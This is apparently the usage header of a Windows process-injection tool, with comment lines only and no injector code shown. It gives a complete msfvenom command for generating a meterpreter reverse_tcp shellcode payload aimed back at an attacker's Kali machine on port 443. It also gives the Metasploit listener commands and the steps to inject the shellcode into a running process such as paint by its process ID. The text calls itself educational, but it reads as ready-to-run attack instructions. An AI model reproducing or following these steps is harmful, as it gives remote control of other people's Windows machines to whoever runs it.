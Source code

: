 # This tool is only for education purposes!

# Get the shellcode from msfvenom by typing this command: msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=[IP ADDRESS HERE] LPORT=443 EXITFUNC=thread -f c --var-name=crowPuke
# Input your Kali IP Address in the msfvenom command, where it says 'IP ADDRESS HERE', then Copy and past the shellcode into the process injector. 
# Set up a metasploit listener using these commands:
# set LHOST eth0
# set LPORT 443
# set payload windows/x64/meterpreter/reverse_tcp
# run

# To use this tool, download Virtual Studio, and build it. Once that is done, use the developer powershell, and use follow these processes:
# I reccommend using the process 'paint'. Find the Process ID by starting the process in powershell by typing: paint
# Then, find the process ID using this command: tasklist | findstr paint
# .\process_injector.exe [process ID]


